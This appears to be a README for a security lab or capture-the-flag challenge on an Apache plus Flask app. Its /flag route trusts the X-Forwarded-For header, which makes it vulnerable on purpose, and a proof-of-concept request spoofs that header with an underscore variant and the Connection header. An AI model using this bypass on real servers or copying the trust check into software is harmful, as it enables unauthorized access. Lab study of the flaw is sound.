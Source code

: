 ### Apache + Flask

Add 'RequestHeader unset X-Forwarded-For' to httpd.conf

'x-forwarded-for' Must be equal to '127.0.0.1'

Try to access /flag from 127.0.0.1

### Usage

Build and run
```
docker-compose up
```

### Hint
httpd.conf
```
RequestHeader unset X-Forwarded-For
```

Go http://127.0.0.1:8089/

app.py
``` python
@app.route('/flag')
def flag():

    src_ip = None
    if 'x-forwarded-for' in request.headers:
            src_ip = request.headers['x-forwarded-for']

    if src_ip == '127.0.0.1':
        return open('flag','r').read()
    else:
        return 'IP From %s is forbidden' % src_ip
```

### POC
Use Burp to send the request.
```
GET /flag HTTP/1.1
Host: 127.0.0.1
X-Forwarded_For: 127.0.0.1
Connection: X-Forwarded-For


```
